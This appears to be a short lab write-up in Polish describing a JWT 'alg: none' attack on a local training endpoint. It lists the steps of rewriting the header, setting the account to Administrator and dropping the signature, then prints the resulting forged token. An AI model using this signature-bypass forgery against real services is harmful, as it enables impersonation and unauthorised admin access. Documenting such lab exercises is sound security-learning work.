

### Zadanie 2

Opis kroków:
1. Wygenerowałem JWT
2. Zmodyfikowałem header JWT
```json
{ "alg":"none","typ":"JWT"}
```
3. Zmodyfikowałem payload JWT
```json
{"account":"Administrator","role":"User","iat":1702500776,"aud":"https://127.0.0.1/jwt/none"}
```
4. Usunąłem podpis w JWT, ale kropkę zostawiłem

Zmodyfikowany JWT:
```json
{
    "jwt_token":"eyAiYWxnIjoibm9uZSIsInR5cCI6IkpXVCJ9.eyJhY2NvdW50IjoiQWRtaW5pc3RyYXRvciIsInJvbGUiOiJVc2VyIiwiaWF0IjoxNzAyNTAwNzc2LCJhdWQiOiJodHRwczovLzEyNy4wLjAuMS9qd3Qvbm9uZSJ9."
}
```

Efekt:


